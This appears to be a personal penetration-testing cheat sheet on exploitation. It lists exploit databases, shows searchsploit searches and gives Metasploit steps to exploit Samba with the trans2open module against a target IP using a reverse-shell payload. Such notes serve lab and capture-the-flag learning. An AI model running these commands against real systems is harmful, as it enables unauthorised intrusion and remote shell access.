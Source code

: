 # General exploitation

## Links
exploit-db.com
rapid7.com/db/modules/exploit


## seraching with searchsploit

```
seearchsploit <app>
```
example
```
searchsploit samba

searchsploit mod ssl 2
```

# Exploit with Metasploit
Using samba as an example


search for a codename of exploit or however it shows up in searchsploit
```
search trans2open
```
```
use exploit/linux/samba/trans2open
or 
use 1
```
```
set RHOST 192.168.1.4
```
```
msf5 > show targets
```
```
msf5 > exploit
```
IF IT KEEPS DYING TRY A DIFFERENT TYPE OF PAYLOAD
stageless vs staged
```
msf5 > options
```
```
msf5 > set payload linux/x86/shell_reverse_tcp
```
```
msf5 > exploit
```

# Manual

download exploit if you can find it on github or google

download, compile and run
